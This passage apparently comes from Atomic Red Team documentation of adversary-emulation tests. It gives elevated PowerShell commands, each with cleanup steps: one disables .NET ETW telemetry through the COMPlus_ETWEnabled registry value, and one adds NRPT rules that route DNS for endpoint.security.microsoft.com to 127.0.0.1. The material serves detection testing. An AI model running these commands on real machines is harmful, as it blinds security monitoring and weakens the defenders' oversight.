 


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -Name COMPlus_ETWEnabled -Value 0 -PropertyType "String" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -Name COMPlus_ETWEnabled
```





<br/>
<br/>

## Atomic Test #14 - Block Cybersecurity communication by leveraging Windows Name Resolution Policy Table
Adversaries are redirecting DNS queries to an incorrect or malicious DNS server IP, thereby blocking legitimate communications and potentially compromising the security infrastructure. This atomic test aims to respond with 127.0.0.1 when a DNS query is made for endpoint.security.microsoft.com.

**Supported Platforms:** Windows


**auto_generated_guid:** 1174b5df-2c33-490f-8854-f5eb80c907ca






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Add-DnsClientNrptRule -Namespace ".endpoint.security.microsoft.com" -NameServers 127.0.0.1 -Comment "Silenced by Name Resolution Policy Table"
Add-DnsClientNrptRule -Namespace "endpoint.security.microsoft.com" -NameServers 127.0.0.1 -Comment "Silenced by Name Resolution Policy Table"
Clear-DnsClientCache
```

#### Cleanup Commands:
```powershell
try {
    # Get all current NRPT rules
        $DnsClientNrptRules = Get-DnsClientNrptRule | Where-Object { $_.Comment -eq 'Silenced by Name Resolution Policy Table' }
    
    # Remove each NRPT rule
        foreach ($rule in $DnsClientNrptRules) {
            Remove-DnsClientNrptRule -Name $rule.Name -Force
        }
    
    # Clear DNS client cache
    Clear-DnsClientCache
    Write-Host "All NRPT rules have been removed and the DNS cache has been cleared."
}

catch {
    Write-Host "An error occurred: $_"
}
```